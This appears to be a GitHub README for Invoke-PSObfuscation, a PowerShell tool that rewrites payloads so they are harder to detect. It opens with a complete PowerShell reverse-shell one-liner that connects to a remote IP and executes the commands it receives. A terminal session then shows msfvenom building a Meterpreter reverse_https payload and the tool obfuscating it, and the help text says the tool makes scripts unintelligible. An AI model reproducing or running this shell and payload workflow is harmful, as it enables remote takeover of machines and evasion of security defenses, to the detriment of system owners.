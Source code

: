 ### Own Reverse-Shell:

$client = New-Object System.Net.Sockets.TCPClient("192.168.0.123",4455);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()


### Obfuscated PowerShell Reverse Shell

![Alt text](./screenshots/0bFu5c4t3d.jpg "0bFu5c4t3d")

### Meterpreter PowerShell Shellcode

```shell
┌──(tristram㉿kali)-[~]
└─$ pwsh 
PowerShell 7.1.3
Copyright (c) Microsoft Corporation.

https://aka.ms/powershell
Type 'help' to get help.

PS /home/kali> msfvenom -p windows/meterpreter/reverse_https LHOST=127.0.0.1 LPORT=443 EXITFUNC=thread -f ps1 -o meterpreter.ps1
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 686 bytes
Final size of ps1 file: 3385 bytes
Saved as: meterpreter.ps1
PS /home/kali> . ./Invoke-PSObfuscation.ps1                                                                                        
PS /home/kali> Invoke-PSObfuscation -Path ./meterpreter.ps1 -Integers -Variables -OutFile o-meterpreter.ps1                     

     >> Layer 0 Obfuscation
     >> https://github.com/gh0x0st

[*] Obfuscating integers
[*] Obfuscating variables
[*] Writing payload to o-meterpreter.ps1
[*] Done
```

## Comment-Based Help
 
```powershell
<#
    .SYNOPSIS
        Transforms PowerShell scripts into something obscure, unclear, or unintelligible.
    
    .DESCRIPTION
        Where most obfuscation tools tend to add layers to encapsulate standing code, such as base64 or compression, 
        they tend to leave the intended payload intact, which essentially introduces chokepoints. Invoke-PSObfuscation 
        focuses on replacing the existing components of your code, or layer 0, with alternative values. 
    
    .PARAMETER Path
        A user provided PowerShell payload via a flat file.
```